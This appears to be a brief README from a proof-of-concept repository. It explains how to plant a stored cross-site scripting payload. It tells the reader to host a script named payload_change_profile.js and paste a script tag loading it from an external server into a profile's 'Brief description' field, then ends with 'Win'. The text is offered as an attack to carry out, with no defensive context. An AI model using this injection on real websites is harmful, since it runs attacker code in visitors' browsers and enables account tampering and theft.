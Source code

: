 # How to include file:

1. Copy the script to /var/www/example
2. Add the following to the *Brief description* field:

```html
<script src="http://www.example.com/payload_change_profile.js"></script>
```

3. Win